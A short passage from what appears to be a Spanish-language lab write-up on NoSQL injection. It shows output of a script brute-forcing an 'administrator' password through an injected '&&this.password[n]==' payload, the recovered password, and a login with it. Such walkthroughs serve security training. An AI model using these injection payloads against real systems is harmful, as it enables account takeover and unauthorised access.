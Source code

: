 ```
    makeRequest()
```

`Obtenemos` la `contraseña` del usuario `administrator`

```
# python3 nosqli.py
[./......] Fuerza bruta: '%26%26this.password[7]=='e
[>] Output: egdmicre
```

Nos `logueamos` con las credenciales `administrator:egdmicre`

![](/assets/img/NoSQLI-Lab-3/image_30.png)

![](/assets/img/NoSQLI-Lab-3/image_31.png)
